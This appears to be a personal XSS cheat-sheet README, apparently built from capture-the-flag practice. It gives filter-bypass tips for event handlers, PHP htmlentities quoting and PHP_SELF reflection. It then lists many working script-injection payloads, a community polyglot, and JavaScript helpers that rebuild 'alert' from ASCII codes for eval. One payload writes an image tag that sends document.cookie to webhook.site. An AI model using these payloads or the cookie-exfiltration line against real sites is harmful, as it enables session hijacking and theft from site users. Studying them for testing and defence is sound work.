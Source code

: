 # XSS

## NOTES

1. Whenever you try any payload for xss.
   1. If value is reflected in response.
   2. If any special characters are html encoded??
2. What if script or any malicious word is blocked?
   1. There are multiple ways to execute javascript
   2. for eg
   3. in case we are allowed to paste link and it is referenced directly in a HREF tag then [google](../OWASP/javascript:alert\(1\)/) this payload can be used.
   4. div tag, img tag, and there are many tags who has javascript events loaded.
3. What if alert is blocked and script is not blocked
   1. convert ascii value of alert and payload to string and paste it in eval, if script is not blocked ... very rare.
4. What if, we can escape the js by single quotes and comment?
5. What if, special characters are html encoded?
   1. Here, it is common in php to use htmlentities as encoding function.
   2. But, if we do not set ENT\_QUOTES flag...function won't encode ' (single quotes) and we can use it to escape it.
6. Sometimes, developer used and trusted PHP\_SELF which is the path provided by the user.
   1. So, this time, if index.php is where response is reflected, try to do something like this -> /index.php/XSS\_Payload
   2. Check the source code, if /index.php/1 is reflected in forms tag, then replace 1 with XSS\_Payload

## Misc

```
1. If HTTP-only flag is set, client side javascript script cannot access user cookies. It does not mean that cookies are hidden, it's just if XSS Attack is carried out, cookies won't be fetched. 
```

## Payloads I used

```
<script>alert(1)</script>
<script>eval("ale"%2B"rt(1)")</script>
<script>prompt(1)</script>
<Script>alert(1)</Script>
<scr<script>ipt>alert(1)</scr</script>ipt>
<a href="google.com" onmouseover="alert(1)">google</a>
<a href="google.com" onmouseout="alert(1)">google</a>
<a href="google.com" onmousemove="alert(1)">google</a>
<a href="google.com" onclick="alert(1)">google</a>
<a href="google.com" onClick="alert(1)">google</a>
<a href="javascript:alert(1)"/>google</a>
<img src="zzzz" onErRor="alert(1)"/>
<div onmousemove="alert(1)" onmouseout="alert(1)"></div>
"><script>alert(1)</script>//
'><script>alert(1)</script>//
"><script>alert(1)</script>
/index.php/"><script>alert(1)</script>
#<h1><script>alert('9a9ae151-0c35-4b79-92ff-ddbf76907027')</script></h1>
#<script>document.write('<img src="webhook.site?c="'%2Bdocument.cookie%2B'"/>')</script>
<script></script>
```

## Payloads from community

```
1. jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
2. 
```

## Functions

```
// --------------------------alert is blocked-----------------------------
function convertor(num){
   return num.toString().split('').map(Number).map(n => (n || 10) + 64).map(c => String.fromCharCode(c)).join('');
}

function asciitochar(arr){
   xd = arr.map(c => String.fromCharCode(c)).join('')
   return xd;
}

function toascii(strs){
   xd = strs.split('').map(c => c.charCodeAt(c))
   return xd;
}

/* 1 - 49
2 - 50
3 - 51
4 - 52
5 - 53
6 - 54
7 - 55
8 - 56
9 - 57 */

console.log(convertor(3))
console.log(asciitochar([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41]))
console.log(toascii("'"))

/* [57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55] */

// [97, 108, 101, 114, 116]
/* [97, 108, 101, 114, 116, 40, 55, 42, 55, 41] */
/* console.log(asciitochar()) */
/* console.log(eval([97, 108, 101, 114, 116, 40, 55, 42, 55, 41].map(c => String.fromCharCode(c)).join('')) */
/* console.log(eval([57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55].map(c => String.fromCharCode(c)).join(''))) */

/* [NaN, 97, NaN, 97, 101, NaN, NaN, NaN, 45, 48, 99, NaN, NaN, 45, NaN, 98, NaN, NaN, 45, NaN, NaN, 102, 102, 45, 100, 100, 98, 102, NaN, NaN, NaN, 48, NaN, 48, NaN, NaN] */

/* console.log(eval([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41].map(c => String.fromCharCode(c)).join(''))) */

console.log(eval([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41].map(c => String.fromCharCode(c)).join('')))

// --------------------------------------------------------------------------
```
